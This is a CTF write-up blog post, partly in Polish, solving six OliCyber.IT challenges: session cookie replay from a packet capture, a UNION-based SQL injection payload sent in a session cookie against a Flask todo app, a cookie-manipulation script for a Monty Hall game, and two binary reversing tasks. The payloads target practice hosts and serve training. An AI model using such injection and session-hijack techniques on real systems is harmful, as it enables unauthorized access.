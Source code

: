 ```yaml
---
title: Zbiorczy CTF - OliCyber.IT
author: k1k9
categories: [web, OliCyberIT, misc]
tags: [ctf]
---
```


<!-- Write table of contents -->
## Table of contents
1. [Easy login](#easy-login)
2. [Pretty please](#pretty-please)
3. [ToDO](#todo)
4. [Monty Hall](#monty-hall)
5. [Section31](#section31)
6. [Ghost](#ghost)

## Easy login
We managed to intercept a user logging into a website, try to find the flag. \
Website: http://easylogin.challs.olicyber.it \
File: capture.pcapng \
Solves: 98 \
Points: 150 
The task revolves around analyzing a pcapng file. The file contains web traffic that comes from logging into a website. The file contains a GET request to a URI ```/flag``` with header:
```http
Cookie: session=d6f816cd031715f733539affe057b5103530c23ff9aa01c5c4e71990ac2ae2ac
```
So all we need to do is read the value of the Cookie header and send it in a GET request to the URI ```/flag```.

## Pretty please
Sometimes you should just ask :) \
Sito: http://prettyplease.challs.olicyber.it
Solves: 148 \
Points: 100

When we enter the page, we are informed that to receive the flag we need to ask for one of the options available in the select box. We also have access to the source code of the web page, after a short analysis we can see that to receive the flag it is enough to send the following POST request:

```http
POST / HTTP/1.1
Host: prettyplease.challs.olicyber.it

how=pretty+please
```

## ToDO
Volevo imparare Python e Flask, niente di meglio di una todo app, a quanto dice Reddit! \
Website: http://todo.challs.olicyber.it \
File: todo-src.zip \
Solves: 31 \
Points: 200

After download and unzip the file, i can see that the application is vulnerable to SQL Injection in the ```get_user_from_session``` function.

This function returns a user based on the value from the session (uuid4). Having the entire application code, we can see which user stores the flag:

```python
def _setup(self):
        cursor = self.get_cursor()
        # ...
        antonio_id = str(uuid.uuid4())
        flag_task_id = str(uuid.uuid4())
        FLAG = os.getenv('FLAG', 'flag{placeholder}')

        cursor.execute("INSERT INTO users (id, username, password_hash) VALUES ('%s', 'antonio', '')" % antonio_id)

        cursor.execute("INSERT INTO tasks (id, description, added_at, completed, user_id) VALUES ('%s', 'Submit the flag: %s', '2021-01-01', 0, '%s')" % (flag_task_id, FLAG, antonio_id))

        self.commit()
        cursor.close()
```

Having the knowledge of which query is responsible for selecting the appropriate user and where the flag is, we can construct the appropriate SQL Injection query:

```http
GET /todo HTTP/1.1
Host: todo.challs.olicyber.it
Cookie: session=k1k9' UNION SELECT id, username FROM users WHERE username='antoniox
```

## Monty Hall
Pokémon Platinum is the best one: Turnback Cave \
Website: http://monty-hall.challs.olicyber.it \
File: monty_hall.zip
Solves: 17 \
Points: 225

Na samym początku zacząłem analizować kod źródłowy aplikacji. Po analizie kodu źródłowego można zauważyć, że aplikacja wszystkie nasze wybory zapisuje w zaszyfrowanej AES ciasteczku. Mamy prawie wszystkie potrzebne informacje, oprócz klucza szyfrującego. \
Złamanie 16 bajtów AES w trybie CBC jest niemożliwe w rozsądnym czasie, więc musimy znaleźć inny sposób na zdobycie klucza. \
Po długich poszukiwaniach zauważyłem, że z każdym naszym wyborem, zaszyfrowane ciasteczko jest coraz dłuższe. Co w zasadzie sugeruje, że rozwiązanie trzeba potraktować jak race condition. \

On the very beginning I started to analyze the source code of the application. After analyzing the source code, I see that the application saves all our choices in an encrypted AES cookie. I have almost all the necessary information to manipulate cookie, except for the encryption key. \

Breaking 16 bytes of AES in CBC mode is impossible in a reasonable time, so we need to find another way to get the key. \

After a long search, I noticed that with each of our choices, the encrypted cookie is getting longer and longer. Which basically suggests that the solution should be treated as race condition.

Race condition in this case is that the encrypted cookie is saved depending on our choice, not whether we won or lost. \
So when we choose right door, the cookie will be longer than our initial cookie and when we choose wrong door, the cookie will be pretty much the same length as our initial cookie. \

So i wrote a script:
```python
import requests

door = 1
flag = False
cookie = ""
tmpCookie = "1"

while not flag:
    door = door+1 if door < 3 else 1
    cookie = cookie if len(cookie) > len(tmpCookie) else tmpCookie
    resp = requests.post("http://monty-hall.challs.olicyber.it/",
                         headers={"Cookie": f"session={cookie}"},
                         data={"choice": door})
    try: tmpCookie = resp.cookies["session"]
    except: pass
    print(f"[{resp.status_code}] {door} - {cookie}")
    if "flag" in resp.text:
        flag = resp.text.split("<h1>")[1].split("</h1>")[0]
        break
print(f"\n\nFound flag: {flag}")
```
## Section31
To solve this challenge you need to watch the entire Star Trek series. GLHF \
File: section31 \
Solves: 100 \
Points: 75

This task was from the easiest ones. The flag was hidden in binary code of given file: 

![alt text](/assets/posts/olicyberit/Section31.png)

All you need to do is separate flag characters from other chars.

## Ghost
This binary seems scary, it has some ghosts in it. \
File: ghost \
Solves: 42 \
Points: 175

I've started by looking to strings and find something interesting:
```MRktNUU1OSHVbGXVeCV5fS0ZGWzVfWVkMX0Z1Ug5TGQxcCUlXag=``` with looks like base64 encoded string. After decoded it we see only raw bytes.

So I decided to static analyze the binary in Ghidra. After a while I found the functions that are responsible for decoding the flag from base64 and next on raw bytes performing XOR operation and bytes shifting.

![alt text](/assets/posts/olicyberit/ghost.png)

I wrote a python script to decode the flag:
```python
import base64

def fun(data):
    for i in range(0, len(data)):
        data[i] = ((data[i] >> 2) | (data[i] << 6) & 0xFF) ^ 0x2A
    return data

base64String = "MRktNUU1OSHVbGXVeCV5fS0ZGWzVfWVkMX0Z1Ug5TGQxcCUlXag="
decoded = base64.b64decode(base64String)
sample_data = bytearray(decoded)
print(fun(sample_data))
```
But after receiving the flag, I realized that to solve this task all you need to do is run binary with ```gdb``` and dynamically analyze program.